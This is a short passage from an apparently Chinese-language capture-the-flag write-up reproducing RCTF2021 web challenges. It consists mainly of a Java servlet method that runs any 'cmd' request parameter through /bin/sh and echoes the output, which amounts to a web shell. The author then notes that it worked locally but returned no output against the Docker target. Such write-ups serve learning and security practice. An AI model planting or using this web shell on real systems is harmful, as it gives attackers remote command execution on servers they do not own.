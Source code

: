 ```java
    public void e(Object req,Object resp) throws Exception{
        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) resp;
        String[] cmd = {"/bin/sh","-c",request.getParameter("cmd")};
        //String[] cmd = {"cmd","/c",request.getParameter("cmd")};
        Process inProcess = (Process) Runtime.getRuntime().exec(cmd);


        InputStream in = inProcess.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        String line;

        byte[] bcache = new byte[1024];
        int readSize = 0;
        try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
            while ((readSize =in.read(bcache))!=-1){
                outputStream.write(bcache,0,readSize);
            }
            response.getWriter().println(outputStream.toString());
            //System.out.println(outputStream.toString());
        }
    }
}

```

然后我本地打通了复现的docker那边死活没回显：

![image-20211103172357082](RCTF2021-Web复现.assets/image-20211103172357082.png)
